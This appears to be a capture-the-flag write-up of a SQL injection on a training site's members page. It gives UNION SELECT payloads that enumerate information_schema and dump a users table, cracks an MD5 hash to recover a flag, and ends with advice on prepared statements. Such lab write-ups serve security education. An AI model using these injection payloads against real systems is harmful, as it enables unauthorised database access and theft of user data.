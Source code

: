 # MEMBERS PAGE

## Explanations

In the members page, we encounter a textfield with a submit to search a member by ID.

Before even beginning, if we submit nothing we have this message:

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1` => an SQL injection seems to be possible !

Typing an ID gives us indeed a user linked to that ID, for example typing `1` will give us:

```
ID: 1
First name: Barack Hussein
Surname : Obama
```

Now let's get some more informations about the database.

We can try to add another SQL request with `UNION` and get more infos with the request:

```
 1 UNION SELECT * FROM information_schema.columns
```

giving us this output:

```
The used SELECT statements have a different number of columns
```

It seems like we need to select only 2 informations because our first SQL request only gave us `First name` and `Surname` (the output needs to remain on 2 columns)

So let's get all the columns and tables avalaible on the dabase with:

```
 1 UNION SELECT column_name, table_name FROM information_schema.columns
```

It worked ! By looking closely we see a `users` table that has 8 columns:  
 `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire` and `countersign`

Let's check each users with:

```
1 UNION SELECT last_name, first_name FROM users
```

One of the users returns us `GetThe` as 'last_name' and `Flag` as 'first_name' !

By checking the other infos about this user, we finally try:

```
1 UNION SELECT Commentaire, countersign FROM users
```

and get:

```
ID: 1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Let's get this flag now !

First we decrypt (MD5) `5ff9d0165b4f92b14994e5c685cdce28` which gives us `FortyTwo` then lowered the chars to `fortytwo`

Finally, we get the flag by applying SHA256 which gives us : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## How to avoid that security breach ?

A good way to counter that could be to use Prepared statements. ORMs do that trick usually pretty well. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

---

#### Sources

[All infos about SQL database](https://stackoverflow.com/questions/600446/how-do-you-return-the-column-names-of-a-table)  
[SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
[Find Table Names for SQL Injection](https://www.sqlinjection.net/table-names/)
[MD5 Decrypter](https://md5decrypt.net/)
[SHA256 Encrypter](https://md5decrypt.net/Sha256/)
